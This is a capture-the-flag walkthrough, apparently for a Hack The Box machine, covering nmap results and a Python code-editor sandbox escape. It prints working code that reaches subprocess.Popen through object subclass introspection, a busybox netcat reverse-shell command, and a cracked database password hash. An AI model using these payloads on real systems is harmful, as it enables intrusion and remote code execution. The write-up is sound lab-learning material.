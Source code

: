 Tags: 
# **Nmap Results**

```text
Nmap scan report for 10.10.11.62
Host is up (0.021s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
|_http-title: Python Code Editor
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.98 seconds
```
<br>
<br>

# **Service Enumeration**
Initial scan results reveal SSH listening on port 22 and an HTTP webserver behind port 5000. Let's take a look there first:

![[Pasted image 20250324214239.png]]

We see a python code editor. There are options to register or login, but before that, I want to try and see if I can execute system commands by leveraging libraries like `os` or `subprocess`. Unfortunately, as expected, we get "Use of restricted keywords is not allowed". 

There may be a way to escape this sandbox, but to ensure we've covered everything, we'll first perform some directory brute forcing in the background with `feroxbuster` and see if creating an account does anything for us. 

>[!note]
>While the background scan was running, error rates spiked and I couldn't establish a connection to the site, meaning there must be some sort of WAF configured on the server.

I registered an account with username "test" and password "test". The only added feature we seem to get is the ability to save our scripts:

![[Pasted image 20250324215601.png]]

I'm going to try escaping the sandbox now. 

Keywords such as "import", "os", "subprocess", "builtins", "exec", and "eval" are all banned, along with many more I haven't tried, so we can't just import a module and execute a system command, or use python's builtin methods "exec" or "eval" to break out of this sandbox.  

We want to find out which builtin objects are available and which modules are loaded into memory right now. The line `().__class__.__base__.__subclasses__()` tells us just that.

>[!info] Quick breakdown of the one-liner
>1. `()` --> Creates an empty tuple instance
>2. `().__class__` --> Returns the class of the tuple (`<class 'tuple'>`)
>3. `().__class__.__base__` --> Returns the base class of "tuple", which is "object"
>4. `().__class__.__base__.__subclasses__()` --> Same as `object.__subclasses__()`, which returns a list of all classes that directly inherit from "object"
^introspection-one-liner

The following code loops through the output of that one-liner and attempts to find the "subprocess.Popen" class and its corresponding index:

```python
for i, cls in enumerate(().__class__.__base__.__subclasses__()):
    string = str(cls)
    # Notice how I didn't write "Popen" below, otherwise the code wouldn't run
    if "Pope" in string:
        print(i, cls)
```

Upon execution, the program returns:`317 <class 'subprocess.Popen'>`. 

So the subprocess module is loaded and the Popen method is available. We can assign it to a variable like "method" and treat it like a function by writing `method("<command here>", shell=True)`. It's the same thing as writing `subprocess.Popen("<command here>", shell=True)`. 

Let's test if we actually have RCE on the system. We'll run the following code:

```python
method = ().__class__.__base__.__subclasses__()[317]
command = method("echo hello world", shell=True, stdout=-1, stderr=-1)

output = command.communicate()[0]
print(output.decode())

```

>[!info] Code explanation
>Remember that index 317 of the subclasses list is where subprocess.Popen is located. 
>We assign this to a variable "method", and then treat method as that Popen function. 
>
>A simple command such as `echo hello world` is enough for verifying RCE. Setting stdout and stderr to -1 are shortcuts for subprocess.PIPE, which is required for capturing output. 
>
>`output = command.communicate()[0]` returns the stdout of the command and stores it to the output variable. Then we decode it from bytes to plaintext and print it.

Fortunately, we do in fact see "hello world" on the window on the right, meaning our RCE payload was successful. 
<br>
<br>
# **Exploitation**
## **Initial Access**
Next step is getting a reverse shell. We just need to replace our echo command with a rev shell payload. I'm going to use `busybox nc <ip address> <port> -e sh` and set up my listener:

![[Pasted image 20250324233928.png]]

After hitting run, we receive a connection and are now logged in as app-production. 

Even though we technically have user (as the user.txt file is located within app-production's home directory), there is another user on the system named Martin, as seen in the /etc/passwd file. Our next step is to try and log in as him. 

Taking a look around the `~/app` folder we're in, there is a SQLite database file in the "instance" directory:

![[Pasted image 20250324235922.png]]

It contains 2 tables, "code" and "user". The latter seemed more interesting, and contained an MD5 hash of Martin's password:

![[Pasted image 20250325000210.png]]

I pasted this into hashes.com and it found the password to be **nafeelswordsmaster**

![[Pasted image 20250325000328.png]]

I used this password to SSH into the system as Martin and was successful. 
<br>
<br>
# **Privilege Escalation**  

Document here:
* Exploit used (link to exploit)
* Explain how the exploit works 
* Any modified code (and why you modified it)
* Proof of privilege escalation (screenshot showing ip address and privileged username)
<br>
<br>
# Skills Learned
* `().__class__.__base__.__subclasses__()` is very useful when trying to **escape python sandboxes**. When builtin functions or importing modules are restricted, this line will print all builtins and modules that are already loaded in memory. Once you've found the class you're looking for and noted down the index (the position of the class in the list), you can assign it to a variable and use it as normal. See the one-liner [explanation](#^introspection-one-liner) above for a better understanding 
<br>
<br>
# Proof of Pwn
Paste link to HTB Pwn notification after owning root